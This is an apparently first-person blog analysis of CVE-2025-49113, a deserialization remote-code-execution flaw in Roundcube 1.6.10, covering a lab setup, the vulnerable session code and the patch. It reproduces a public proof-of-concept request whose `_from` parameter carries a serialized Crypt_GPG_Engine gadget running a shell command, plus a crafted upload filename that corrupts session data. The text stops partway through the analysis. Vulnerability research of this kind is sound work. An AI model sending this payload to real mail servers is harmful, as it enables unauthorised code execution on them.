

## Introduction

In this post, I will begin my deep dive into CVE analysis with a closer look at CVE-2025-49113—a remote code execution (RCE) vulnerability affecting Roundcube. As this is my first CVE analysis, my goal is not only to investigate the flaw but also to develop a clear, repeatable process for examining real-world vulnerabilities. I will walk through each stage: setting up the environment, reproducing the issue, tracing the vulnerable code, and unpacking how a deserialization flaw can escalate to code execution. By approaching the analysis step-by-step, I aim to build a solid foundation for more advanced vulnerability research in the future.

## Setup Environment

The first step is to prepare an environment in which the vulnerability can be reproduced. This analysis draws on insights and proof-of-concepts (PoCs) from the following prior work:

1. [CVE‑2025‑49113 – Post‑Auth Remote Code Execution in Roundcube via PHP Object Deserialization](https://www.offsec.com/blog/cve-2025-49113/)
2. [Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]](https://fearsoff.org/research/roundcube)

First, we need to install the vulnerable version of Roundcube—in this case, version 1.6.10. We’ll use the pre-built package provided below to set up the environment:
 [BUILD + POC](https://github.com/fearsoff-org/CVE-2025-49113)

But to make the analysis more convenient, I will set up remote debugging and analyze it directly on my own machine.
Start by adding those lines to `rc_install.sh`:

```diff

apt install -yq --no-install-recommends apache2 php php-mysql php-intl php-mbstring php-xml php-common php-cli php-curl php-zip php-gd php-imagick unzip mariadb-server dovecot-imapd dovecot-pop3d composer bsd-mailx wget curl 
+ # add debugger
+ apt install -yq --no-install-recommends php-xdebug
+ echo "zend_extension=$(find /usr/lib/php/ -name xdebug.so)" >> /etc/php/*/apache2/php.ini
+ echo "xdebug.mode=debug" >> /etc/php/*/apache2/php.ini
+ echo "xdebug.start_with_request=yes" >> /etc/php/*/apache2/php.ini
+ echo "xdebug.client_host=host.docker.internal" >> /etc/php/*/apache2/php.ini
+ echo "xdebug.client_port=9003" >> /etc/php/*/apache2/php.ini
+ # end add debugger
```

Now setup launch.json for our working vscode:

```json
{
  "version": "0.2.0",
  "configurations": [
    {
      "name": "Xdebug",
      "type": "php",
      "request": "launch",
      "port": 9003,
      "pathMappings": {
        "/var/www/html/roundcube": "${workspaceFolder}/roundcube"
      }
    }
  ]
}

```
Then we just run 
```bash
docker run --name ubuntu24 \
  -p 9876:80 \
  -v "$PWD/rc_install.sh":/root/rc_install.sh \
  -it ubuntu:24.04 \
  bash -c "chmod +x /root/rc_install.sh && /root/rc_install.sh && exec bash"

docker cp ubuntu24:/var/www/html/roundcube ./roundcube
```
Then we just need to press `F5` in vscode to start debugging.


## Start Analyzing

Based on findings from public articles and proof-of-concept (PoC) code, the vulnerability can be traced to the `_from` parameter in actions/settings/upload.php. This parameter is retrieved directly from user input and processed without sufficient validation.

```diff
        $from = rcube_utils::get_input_string('_from', rcube_utils::INPUT_GET);
        $type = preg_replace('/(add|edit)-/', '', $from);

        // Validate URL input.
+       if (!rcube_utils::is_simple_string($type)) {
+           rcmail::write_log(
+               'errors',
+               'The URL parameter "_from" contains disallowed characters and the request is thus rejected.'
+           );
+           $rcmail->output->command('display_message', 'Invalid input', 'error');
+           $rcmail->output->send('iframe');
+       }

        // Plugins in Settings may use this file for some uploads (#5694)
        // Make sure it does not contain a dot, which is a special character
        // when using rcube_session::append() below
```
{: file="upload.php"}

Since the `_from` parameter is fully controlled by the client and lacks sufficient input validation, it serves as a direct entry point for malicious payloads. An attacker can manipulate this parameter to influence application behavior in unexpected ways, ultimately enabling exploitation.

### Starting point

To better understand how the vulnerability unfolds, the state diagram below illustrates the execution flow from file upload to the point of unsafe deserialization.



Now let's deep dive further into the problem. 
> **TIPS**
> {:.title}
> Before diving in, I highly recommend you to read [Insecure deserialization - PortSwigger](https://portswigger.net/web-security/deserialization) to fully understand the concept of insecure deserialization.
{:.prompt-info}


### Deep Dive into the Vulnerability

To summarize, I will split the above flow into three main parts for easier understanding:

1. **Injecting Malicious Payload**: Injects a malicious payload via the `_from` parameter (leveraging the `filename` during file upload). This value is used to build a session key, and the uploaded data is appended directly into the session under that key.

2. **Handling Malicious Session Data**: Inside `rcube_session::sess_write`, Roundcube processes and stores session data. Internally, session variables are split using the `|` character, and its custom `unserialize()` logic treats a leading `!` as a “no value” marker. This becomes a flaw when `!` appears inside attacker-controlled serialized data: the parser misinterprets it as a control flag instead of a normal character. This corrupts the `$serialized` reconstruction and allows arbitrary serialized objects to be smuggled in. The malicious object is then re-serialized and stored in the database. On the next request, when the session is loaded, these objects are present in memory and ready to trigger.

3. **Triggering Remote Code Execution**: When a new `rcube` instance starts up, it automatically calls `unserialize($_SESSION['preferences']);`. Because the attacker has already manipulated the serialized session data, they now control the contents of `preferences`. If a suitable gadget chain exists, this leads directly to execution of arbitrary PHP code.


To explain each of these stages in detail, I will walk through a POC from [fearsoff-org/CVE-2025-49113](https://github.com/fearsoff-org/CVE-2025-49113/tree/main). Using this PoC as a reference will make it easier to demonstrate exactly how the payload is injected, how the session corruption occurs, and how it ultimately leads to code execution — allowing us to see the vulnerability unfold step-by-step in a controlled environment.

#### Injecting Malicious Payload

In the first stage, our objective is to identify the sink of this vulnerability — which turns out to be the `_from` parameter in `actions/settings/upload.php`.  
After some analysis, it becomes clear that `_from` works as a kind of indicator showing where the file upload originated.  
For example, if `_from=edit-identity`, it means the file upload was triggered from the “edit identity” action.

Looking at the `upload.php` source, we can see that when a file is uploaded, Roundcube only removes the `add-` or `edit-` prefix from `_from`, replaces any `.` with `-`, and then appends the uploaded file to the session.  


```php
class rcmail_action_settings_upload extends rcmail_action
{
    protected static $mode = self::MODE_AJAX;

    /**
     * Request handler.
     *
     * @param array $args Arguments from the previous step(s)
     */
    public function run($args = [])
    {
        $rcmail = rcmail::get_instance();
        $from   = rcube_utils::get_input_string(fname: '_from', rcube_utils::INPUT_GET);
        $type   = preg_replace('/(add|edit)-/', '', $from);

        // Plugins in Settings may use this file for some uploads (#5694)
        // Make sure it does not contain a dot, which is a special character
        // when using rcube_session::append() below
        $type = str_replace('.', '-', $type);

        // Supported image format types
        $IMAGE_TYPES = explode(',', 'jpeg,jpg,jp2,tiff,tif,bmp,eps,gif,png,png8,png24,png32,svg,ico');

        // clear all stored output properties (like scripts and env vars)
        $rcmail->output->reset();

        $max_size = $rcmail->config->get($type . '_image_size', 64) * 1024;
        $uploadid = rcube_utils::get_input_string('_uploadid', rcube_utils::INPUT_GET);

        if (!empty($_FILES['_file']['tmp_name']) && is_array(value: $_FILES['_file']['tmp_name'])) {
            $multiple = count($_FILES['_file']['tmp_name']) > 1;

            foreach ($_FILES['_file']['tmp_name'] as $i => $filepath) {
                $err        = $_FILES['_file']['error'][$i];
                $imageprop  = null;
                $attachment = null;

                // Process uploaded attachment if there is no error
                if (!$err) {
                    if ($max_size < $_FILES['_file']['size'][$i]) {
                        $err = 'size_error';
                    }
                    // check image file type
                    else {
                        $image     = new rcube_image($filepath);
                        $imageprop = $image->props();

                        if (!in_array(strtolower($imageprop['type']), $IMAGE_TYPES)) {
                            $err = 'type_error';
                        }
                    }
                }

                // save uploaded image in storage backend
                if (!empty($imageprop)) {
                    $attachment = $rcmail->plugins->exec_hook('attachment_upload', [
                        'path'     => $filepath,
                        'size'     => $_FILES['_file']['size'][$i],
                        'name'     => $_FILES['_file']['name'][$i],
                        'mimetype' => 'image/' . $imageprop['type'],
                        'group'    => $type,
                    ]);
                }

                if (!$err && !empty($attachment['status']) && empty($attachment['abort'])) {
                    $id = $attachment['id'];

                    // store new file in session
                    unset($attachment['status'], $attachment['abort']);
                    $rcmail->session->append($type . '.files', $id, value: $attachment);

                    $content = rcube::Q($attachment['name']);

                    $rcmail->output->command('add2attachment_list', "rcmfile$id", [
                            'html'      => $content,
                            'name'      => $attachment['name'],
                            'mimetype'  => $attachment['mimetype'],
                            'classname' => rcube_utils::file2class($attachment['mimetype'], $attachment['name']),
                            'complete'  => true
                        ],
                        $uploadid
                    );
                }
                else {
                    $error_label = null;
                    if ($err == 'type_error') {
                        $error_label = 'invalidimageformat';
                    }
                    else if ($err == 'size_error') {
                        $error_label = ['name' => 'filesizeerror', 'vars' => ['size' => self::show_bytes($max_size)]];
                    }

                    self::upload_error($err, $attachment, $error_label);
                }
            }
        }
        else if (self::upload_failure()) {
            $rcmail->output->command('remove_from_attachment_list', $uploadid);
        }

        $rcmail->output->send('iframe');
    }
}
```
{: file="upload.php"}

As an example, if we upload a file with `_from=edit-payload1`, the request might look like this:

```plaintext
POST /?_task=settings&_framed=1&_remote=1&_from=edit-payload1&_id=&_uploadid=upload1755092292746&_unlock=loading1755092292746&_action=upload HTTP/1.1
Host: localhost:9876
Content-Length: 8782
Accept-Language: en-US
sec-ch-ua-mobile: ?0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1J8fXAxVwJJ7ZwF1
Accept: application/json, text/javascript, */*; q=0.01
X-Roundcube-Request: ZSEZEbPH6Icn6RyL2KCXEQEQAHuXKIEo
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Cookie: roundcube_sessid=2rm9fvndt81lne7uat8j206or4; roundcube_sessauth=YHvzjZ8lWyR0lTK0HAo2Oo7eKc-1755092100
Connection: keep-alive

------WebKitFormBoundary1J8fXAxVwJJ7ZwF1
Content-Disposition: form-data; name="_file[]"; filename="loadpay2.jpg"
Content-Type: image/jpeg
``` 

Here, the `_from` value is parsed into `$type` (payload1 in this case), and the uploaded file’s data is appended to the session with:

```php
$rcmail->session->append($type . '.files', $id, value: $attachment);
```
{: file="upload.php"}

When `append()` runs, it first calls `reload()` if the session data may be stale:

```php
 public function append($path, $key, $value)
    {
        // re-read session data from DB because it might be outdated
        if (!$this->reloaded && microtime(true) - $this->start > 0.5) {
            $this->reload();
            $this->reloaded = true;
            $this->start = microtime(true);
        }

        $node = &$this->get_node(explode('.', $path), $_SESSION);

        if ($key !== null) {
            $node[$key] = $value;
            $path .= '.' . $key;
        }
        else {
            $node[] = $value;
        }

        $this->appends[] = $path;

        // when overwriting a previously unset variable
        if (array_key_exists($path, $this->unsets)) {
            unset($this->unsets[$path]);
        }
    }
```
{: file="rcube_session.php"}

Inside `reload()`, the logic works like this:

1. Copy any in-memory appends from $this->appends into a temporary array.

2. Read the current serialized session from the database.

3. Decode it into $_SESSION.

4. Merge the in-memory appends into the freshly decoded session.

5. unset

```php
public function reload()
  {
      // collect updated data from previous appends
      $merge_data = [];
      foreach ((array) $this->appends as $var) {
          $path = explode('.', $var);
          $value = $this->get_node($path, $_SESSION);
          $k = array_pop($path);
          $node = &$this->get_node($path, $merge_data);
          $node[$k] = $value;
      }

      if ($this->key) {
          $data = $this->read($this->key);
      }

      if (!empty($data)) {
          session_decode($data);

          // apply appends and unsets to reloaded data
          $_SESSION = array_merge_recursive($_SESSION, $merge_data);

          foreach ((array) $this->unsets as $var) {
              if (isset($_SESSION[$var])) {
                  unset($_SESSION[$var]);
              }
              else {
                  $path = explode('.', $var);
                  $k = array_pop($path);
                  $node = &$this->get_node($path, $_SESSION);
                  unset($node[$k]);
              }
          }
      }
  }
  ```
{: file="rcube_session.php"}


in `append()` , Because `get_node()` returns by reference, the write in append() directly modifies the nested session array, for example:

```php
...
#$PATH = "payload1.files"

    /** get_node()
     * Returns a reference to the node in data array referenced by the given path.
     * e.g. ['compose','attachments'] will return $_SESSION['compose']['attachments']
     */
  $node = &$this->get_node(explode('.', $path), $_SESSION); 
  #node -> $_SESSION['payload1']['files'] = null
  


        if ($key !== null) {
            $node[$key] = $value;
// $_SESSION['payload1']['files']['key'] = $value; where value is the attachment data
// $value =   array(6)
// "/var/www/html/roundcube/temp/RCMTEMPattmnt689d4b0f7c3f4954327456"
// 89
// "loadpay2"
// "image/png"
// "payload1"
// "11755138831050915900"
            $path .= '.' . $key;
        }
        else {
            $node[] = $value;
        }
...
```
{: file="rcube_session.php"}

The final stored path looks like:
```php
      # path = "payload1.files.11755138831050915900"
        $this->appends[] = $path;

        // when overwriting a previously unset variable
        if (array_key_exists($path, $this->unsets)) {
            unset($this->unsets[$path]);
        }
```
{: file="rcube_session.php"}

This is how the uploaded file is anchored inside the session.
Importantly, because `$type` is derived directly from the client-controlled `_from` parameter, it influences where in the session tree this data lands — which becomes critical later when the custom serialization logic interacts with these keys.

#### Handle Malicious Session Data

In the previous section, we discussed how the malicious payload is injected into the session via the `_from` parameter. Now, we will look at how this data is incorrectly processed by Roundcube, eventually leading to unsafe deserialization.

When the upload process completes, Roundcube calls `rcube_session::sess_write()` to write the updated session data back to the database. This function is responsible for taking the in-memory `$_SESSION` array, serializing it, and storing it. The vulnerability lies in how Roundcube reconstructs session data before serialization.

From this point, I will follow the PoC from the vulnerability’s author to make the flow easier to understand.

The PoC sends the following request:

```plaintext
POST /?_from=edit-!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}i:0;b:0;}";}}&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload HTTP/1.1
Host: roundcube.local
X-Requested-With: XMLHttpRequest
Accept-Encoding: identity
Content-Length: 242

-----------------------------WebKitFormBoundary
Content-Disposition: form-data; name="_file[]"; filename="x|b:0;preferences_time|b:0;preferences|s:179:\"a:3:{i:0;s:57:\".png"
Content-Type: image/png

IMAGE
----------------------------- WebKitFormBoundary--
```

So in the POC author send request with `$_from = edit-!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}i:0;b:0;}";}}` and the uploaded filename is `x|b:0;preferences_time|b:0;preferences|s:179:\"a:3:{i:0;s:57:\".png"`. so why?

after the file is uploaded, the session will contain the following data:


Similar to the previous section example. So where is the problem?

After the process finished, Roundcube will try to write the session data back to the database. The `sess_write()` function is responsible for this. 

```php
    public function sess_write($key, $vars)
    {
        if ($this->nowrite) {
            return true;
        }
        $oldvars = $this->get_cache($key);

        if ($oldvars) {
          # look at this _fixvars function
            $newvars = $this->_fixvars($vars, $oldvars);
            return $this->update($key, $newvars, $oldvars);
        }
....


```
In `_fixvars()`, the logic is as follows:
```php
    protected function _fixvars($vars, $oldvars)
    {
        $newvars = '';

        if ($oldvars !== null) {
          # call unserialize on oldvars (No problem here)
            $a_oldvars = $this->unserialize($oldvars);
            if (is_array(value: $a_oldvars)) {

          ....


          # Problem here
                $newvars = $this->serialize(array_merge(
                    (array)$a_oldvars, (array)$this->unserialize($vars)));
            }
            else {
                $newvars = $vars;
            }
        }

        $this->unsets = [];

        return $newvars;
    }

```
{: file="rcube_session.php"}

In detail, `$newvars` is built by merging the old session data with the newly provided data. The issue appears when `unserialize()` is called on this new data — which, being under our control, can be crafted to exploit the `!` handling flaw in the `unserialize()` function.

Now with above request, the `unserialize()` function will receive the following data:

```plaintext
"language|s:5:"en_US";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:9:"roundcube";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"JZDI3eyN0+fKy1FACbDRsh6nfCaYHJvB";login_time|i:1755144162;STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"zcPc7GejK2dBWfhQQs7HgMjTrA";request_token|s:32:"pIfyjf6j2QJbzhmFOMPTMI32YNqXSxWU";plugins|a:1:{s:22:"filesystem_attachments";a:1:{s:112:"!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch /tmp/pwned;#";}i:0;b:0;}";}}";a:1:{s:20:"11755144165096127000";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt689d5fe5ea16e359260850";}}}!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch /tmp/pwned;#";}i:0;b:0;}";}}|a:1:{s:5:"files";a:1:{s:20:"11755144165096127000";a:6:{s:4:"path";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt689d5fe5ea16e359260850";s:4:"size";i:89;s:4:"name";s:65:"x|b:0;preferences_time|b:0;preferences|s:179:"a:3:{i:0;s:57:".png";s:8:"mimetype";s:9:"image/png";s:5:"group";s:112:"!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch /tmp/pwned;#";}i:0;b:0;}";}}";s:2:"id";s:20:"11755144165096127000";}}}"
```

